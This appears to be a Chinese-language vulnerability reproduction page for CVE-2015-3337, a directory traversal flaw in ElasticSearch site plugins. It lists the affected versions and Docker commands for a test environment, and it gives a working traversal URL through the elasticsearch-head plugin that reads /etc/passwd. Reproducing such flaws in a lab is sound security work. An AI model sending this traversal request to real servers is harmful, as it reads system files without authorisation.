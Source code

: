 ```yaml
---
title: （CVE-2015-3337）ElasticSearch 目录穿越漏洞
id: zhfly2905
---
```


# （CVE-2015-3337）ElasticSearch 目录穿越漏洞

## 一、漏洞简介

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 二、漏洞影响

影响版本：1.4.5以下/1.5.2以下

## 三、复现过程

编译及运行测试环境

```
docker-compose build
docker-compose up -d 
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://www.0-sec.org:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![image](../img/0191e6afb85462bee9cd61acf15bedf5.png)

### head插件

head插件提供了elasticsearch的前端页面，访问 `http://www.0-sec.org:9200/_plugin/head/` 即可看到，不多说了。

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/